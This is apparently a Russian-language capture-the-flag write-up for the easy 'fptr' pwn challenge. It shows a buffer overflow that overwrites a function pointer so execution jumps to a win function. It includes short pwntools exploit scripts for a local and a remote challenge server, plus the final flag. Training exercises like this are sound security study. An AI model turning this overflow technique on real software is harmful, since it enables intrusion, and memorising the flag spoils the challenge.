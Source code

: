 
# Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: fptr
# Сложность: Easy

Данное задание очень похоже на предыдущее ходом решения, однако, здесь мы затираем переменную, которая сожержит адрес функции. Посмотрим исходный код программы: <br />
![image](https://github.com/user-attachments/assets/316ac8ee-6871-4119-baf2-3c6d5c22d2bf)

Здесь все просто, считываем буфер, после того, как буфер считан, выполнится инструкция `call edx`, которая и вызовет функцию по указанному адресу: <br />
![image](https://github.com/user-attachments/assets/b1b2b4bb-6fd4-430f-9172-894eaec4c161)
Введем 4 буквы `a` и посмотрим на состояние стека: <br />
![image](https://github.com/user-attachments/assets/1667b659-cc59-4523-8f05-f55eef968786)
При таком вводе, адрес не переписывается, поэтому переполним буфер и запишем новый адрес. Посмотрим как адрес у функции `win`: <br />
![image](https://github.com/user-attachments/assets/76e938ff-5656-4813-8fbc-8ef5e46d9155)
Адрес у данной функции `0x401172`. Напишем скрипт и посмотрим получится ли получить локальный флаг: <br />

```py
from pwn import * 

p = process('./fptr')
win_addr = 0x401172
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```
![image](https://github.com/user-attachments/assets/3c1fb947-80b9-4342-8877-bdba66f5c8e5)
Получить локальный флаг удалось, теперь получим настоящий флаг: <br>
```py
from pwn import *

p = remote('109.233.56.90', 11601)
win_addr = 0x401172
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```
![image](https://github.com/user-attachments/assets/8a9d397a-944e-4fab-ad4a-c0f2d95bfd25)

Ответ: `spbctf{9c4ef124c0624b2ddbe6eb58f8be045a}`



